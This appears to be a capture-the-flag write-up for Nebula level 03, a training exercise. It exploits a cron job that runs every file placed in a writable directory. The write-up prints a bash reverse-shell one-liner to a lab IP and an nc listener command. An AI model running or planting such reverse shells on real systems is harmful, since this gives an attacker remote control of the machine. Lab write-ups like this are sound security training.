 # Level 03 - Nebula

```
Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.
```



Inside of the directory, we find the writable.d directory and writable.sh. writable.sh (whats being executed by the "crontab") contains:

```bash
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

This program loops through the files in the writable.d directory and executes and then deletes them if they're executable. This gives us an immediate path to code execution and we can just throw whatever bash we want in that directory.

I used [this website](https://www.revshells.com/) to generate this bash reverse shell (I'm using a [local network](https://sp1icersec.wordpress.com/2018/09/07/exploit-exercises-nebula-setup/)):

```bash
sh -i >& /dev/tcp/192.168.56.101/4444 0>&1
```

and I used this listener on my Kali machine:

```bash
nc -lvnp 4444
```

![](../../assets/nebula/level03/flag.png)